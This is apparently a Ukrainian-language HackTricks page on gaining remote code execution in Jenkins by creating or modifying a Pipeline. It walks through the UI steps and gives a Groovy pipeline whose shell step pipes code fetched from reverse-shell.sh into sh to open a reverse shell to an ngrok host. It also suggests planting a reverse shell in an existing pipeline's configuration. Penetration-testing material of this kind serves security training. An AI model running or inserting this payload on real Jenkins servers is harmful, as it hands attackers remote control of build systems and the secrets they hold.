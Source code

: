 # Jenkins RCE Creating/Modifying Pipeline

{{#include ../../banners/hacktricks-training.md}}

## Створення нового Pipeline

У "New Item" (доступно за адресою `/view/all/newJob`) виберіть **Pipeline:**

![](<../../images/image (235).png>)

У **Pipeline section** напишіть **reverse shell**:

![](<../../images/image (285).png>)
```groovy
pipeline {
agent any

stages {
stage('Hello') {
steps {
sh '''
curl https://reverse-shell.sh/0.tcp.ngrok.io:16287 | sh
'''
}
}
}
}
```
Нарешті натисніть **Save**, а потім **Build Now**, і конвеєр буде виконано:

![](<../../images/image (228).png>)

## Модифікація конвеєра

Якщо ви можете отримати доступ до файлу конфігурації деякого налаштованого конвеєра, ви можете просто **модифікувати його, додавши ваш реверсний шелл**, а потім виконати його або дочекатися, поки його виконають.

{{#include ../../banners/hacktricks-training.md}}
